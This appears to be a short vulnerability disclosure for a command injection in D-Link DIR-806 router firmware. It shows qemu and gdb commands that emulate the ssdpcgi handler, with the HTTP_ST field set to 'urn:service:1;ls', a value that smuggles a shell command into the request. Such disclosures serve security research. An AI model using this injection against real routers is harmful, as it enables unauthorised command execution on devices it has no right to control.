

# D-LINK DIR-806 1200M11AC wireless router DIR806A1_FW100CNb11 command injection
## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-806 

## Debugging verification
Debugging with qemu and gdb:

qemu: 

`sudo chroot . ./qemu-mips-static -0 "ssdpcgi" -E REMOTE_ADDR=127.0.0.1 -E SERVER_ID=1 -E REMOTE_PORT=8888 -E HTTP_ST="urn:service:1;ls" -E REQUEST=/ -E REQUEST_METHOD=M-SEARCH -g 12345 ./htdocs/cgibin`

gdb: 

`set architecture mips` 

`set endian big` 

`target remote 127.0.0.1:12345` 

Set the HTTP_ST parameter as HTTP_ST="urn:service:1;ls" 

